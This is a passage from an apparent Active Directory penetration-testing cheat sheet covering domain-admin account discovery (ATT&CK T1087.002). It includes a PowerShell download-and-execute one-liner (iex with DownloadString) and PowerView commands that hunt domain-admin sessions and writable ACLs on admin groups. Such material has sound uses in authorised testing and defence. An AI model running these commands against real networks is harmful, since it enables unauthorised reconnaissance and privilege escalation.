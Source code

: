 ## <a name='PRE-REQUISITE:ADWebServicesontheDC'></a>PRE-REQUISITE: AD Web Services on the DC

On the error below when loading the AD module, ADWS must be reachable and running:
- TCP port 9389 reachable from your endpoint (and listening on the DC) : ```Test-NetConnection DC01 -port 9389```
- Restart the service on the DC : ```Restart-Service –name ADWS –verbose```

```
PS > iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

AVERTISSEMENT : Error initializing default drive: 'Unable to find a default server with Active Directory Web Services running.'.
```
For more info, read the article from [theitbros.om](https://theitbros.com/unable-to-find-a-default-server-with-active-directory-web-services-running/).

## <a name='T1087.002AccountDiscovery-DomainAccount'></a>T1087.002 Account Discovery - Domain Account
### <a name='DomainAdminAccount'></a>Domain Admin Account
```powershell
# PowerView: find where DA has logged on / and current user has access
Invoke-UserHunter
Invoke-UserHunter -CheckAccess
Invoke-UserHunter -CheckAccess | select username, computername, IPAddress

# get all the effective members of DA groups, 'recursing down'
Get-DomainGroupMember -Identity "Domain Admins" -Recurse | select membername, membersid
Get-DomainGroupMember -Identity "Enterprise Admins" -Recurse -Domain <Forest> | select membername, membersid

# PowerView: gather info on the DA security groups
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs -Verbose| ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}

# find linked DA accounts using name correlation
Get-DomainGroupMember 'Domain Admins' | %{Get-DomainUser $_.membername -LDAPFilter '(displayname=*)'} | %{$a=$_.displayname.split(' ')[0..1] -join ' '; Get-DomainUser -LDAPFilter "(displayname=*$a*)" -Properties displayname,samaccountname}

# Find admin groups based on "adm" keyword
Get-NetGroup *adm* 

```

### <a name='OtherPrivilegedUsers'></a>Other Privileged Users
